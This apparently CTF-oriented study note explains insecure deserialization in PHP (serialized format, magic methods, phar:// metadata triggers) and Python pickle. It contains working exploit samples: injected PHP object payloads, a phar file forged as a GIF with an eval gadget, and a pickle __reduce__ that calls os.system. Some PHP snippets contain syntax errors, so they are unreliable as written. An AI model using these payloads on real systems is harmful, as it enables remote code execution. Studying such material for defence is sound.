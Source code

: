 # Unserialization
Vulnerability of unserialization exists in many program languages，please remember the basic concept：**serialize：convert object to the string; unserialize：convert string to the object**.  
*  [PHP Unserialization](#php-unserialization)  
   *  [Serialization vs Unserialization](#serialization-vs-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Exploit](#exploit)    
   *  [Reference](#reference)  
   *  [With phar](#with-phar)  
*  [Python Unserialization](#python-unserialization)  
   *  [Magic Function](#magic-function)  
   *  [Exploit](#exploit)  
   *  [Reference](#reference)
  

# PHP Unserialization
It's always used in Cookie and session. If the parameter of `unserialize()` can be controlled，we can build up a payload to overwrite specific variable or change control flow.  

## Serialization vs Unserialization
Basically speaking：  
`serialize()`: convert object to string
`unserialize()`: convert string to object  
```php
class pwnch(){
  $test = "helloworld";
  function __wakeup(){
      echo "hello again";
  }
}
echo serialize(new pwnch());   // OUTPUT: O:5:"pwnch":1:{s:4:"test";s:10:"helloworld";}
```
OUTPUT: `O` means object, `5` is the length of object name. `1` is the size of attribute, `4` is the length of variable name, format is `key:value`.  

Type | Syntax  
------------ | -------------  
String | `s:size:value;`  
Integer | `i:value;`  
Boolean | `b:value;`  
NULL | `N;`  
Array | `a:size:{key-type:key-value;value-type:value-value;}`  
Object | `O:strlen(Object):class-name:object size:`  
------------ | -------------  
public | `{s:4:"test"}`  
private | `{s:11:"%00pwnch%00test"}`  
protected | `{s:7:"%00*%00test"}`  

## Magic Function
* `construct()`: called when new a object，but won't be called when unserialize()  
* `destruct()`: called when destroy a object，also be called when unserialize  
* `__sleep()`: run at the first moment of serialize  
* `__wakeup()`: run at the first moment of unserialize  

## Exploit
payload
```php
unserialize($_GET[1]);

1 = O:5:"pwnch":1:{s:4:"test";s:length of your code:"code you want to insert";}

// Here you can overwrite the variable test，remember to modify the lenght of your code  

// find your own gadget  

1 = O:5:"pwnch":1:{s:4:"test";O:6:"pwnch2":1{s:5:"test2";s:10:"echo `ls`;";}}

// In second payload, I overwrite the constructor in variable test with pwnch2，then overwrite the variable test2 in pwnch2 because I need the function in pwn2!
```
Tools:  
* [php online tool](https://1024tools.com/unserialize)

## Reference
1. [chybeta's blog](https://chybeta.github.io/2017/06/17/%E6%B5%85%E8%B0%88php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)  

## unserialize With phar
Sam Thomas published a new way to trigger a unserialization without use of `unserialize()` in blackhat 2018. This can be done with `php://phar`.  
Trace to the kernel of PHP, we can find that `meta-data` would be unserialized when library function use `phar://` to parse the phar document. Therefore, we can build up a malicious phar document and pass to file functions such as:  
```php
// file(phar://) -> unserialization
file_exists, file_get_contents, file_put_contents, file, fopen, is_dir, is_executable, is_file, is_link, is_readable, is_writable, copy, unlink, stat, readfile
```  
Just a little test can prove the concept:  
```php
class Test {
        public function __destruct() {
            echo 'unserialization happen!';
      }
}

file_exists($filename);
// $filename = phar://uploaded/xxx.gif
```  
Then you can see **unserialization happen!**.  

Therefore, there are three requirements to implement it: `magic file function`, `uploadable file`, `phar:// is allowed`.  
1. We might not be able to upload the phar file to the website directly. However, we can add other header to forge it.  
```php
// generate phar
class Test {
   $var out = 'hello';
   function __destruct(){
        eval($this -> out);
   }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");     // forge to gif
$o = new Test();
$o -> out = 'phpinfo();';
$phar->setMetadata($o);      // set your own definition to metada
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```  
2. Trace any function: whether it calls file open function in the bottom side, then whether we can control its parameter. What's more interesting, it even can be used to make a DOS attack.  

## Reference
1. [Blackhat议题解读 | 利用 phar 拓展 php 反序列化漏洞攻击面](https://www.anquanke.com/post/id/157657)  
2. [blackhat议题深入 | phar反序列化](https://mp.weixin.qq.com/s?__biz=MzIzMTc1MjExOQ==&mid=2247485159&idx=1&sn=50b2e94d2d6fc5f69c540113ae9b3f1c&chksm=e89e2e3fdfe9a729869444aa593e97b52970add524b219553f646e8af2aec06e25e8678e7dde&mpshare=1&scene=23&srcid=0822QPN3ZXccNvKuWTQoahLi#rd)

# Python unserialization
[關於模塊的細節我相當推這篇文章](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)  
Functions **pickle** and **cPickle** also can realize the function of serialization  
1. `cPickle.dumps`: object -> string  
2. `cPickle.loads`: string -> object  
You can also use dump/load，but I won't talk about it here.  
vulnerability of unserialization in python is more serious than in php，we can use this module to build RCE！  

## Magic Function
`reduce` will change the target of unserialization，therefore the parameter is controllable
```python
// magic function: reduce
import cPickle
import os

class People(object):

    def __init__(self,username,password):
        self.username = username
        self.password = password

    def __reduce__(self):
        return (os.system, ('ls',))

michael = People('admin','password')
print cPickle.loads(cPickle.dumps(michael))
// Output: ls (the result of ls
```  
We need `cPickle.loads` to trigger the vulnerability. His type of parameter is string，therefore we cannot use `cPickle.loads(michael)`，I use dumps to convert it inside.  

## Exploit
It's always combined with the web in CTF，such as `<?php system("echo $data | python vul.py")?>`. There might be a IO in `vul.py`，so I should deliver my data to the object with **magic function** which has been converted to string.  

## Reference
1. [Python反序列化小记](https://www.jianshu.com/p/061d2c594d97)  
2. [序列化和反序列化模块pickle介绍 | Python库](https://www.jianshu.com/p/5f936abf31f7?utm_campaign=maleskine&utm_content=note&utm_medium=seo_notes&utm_source=recommendation)

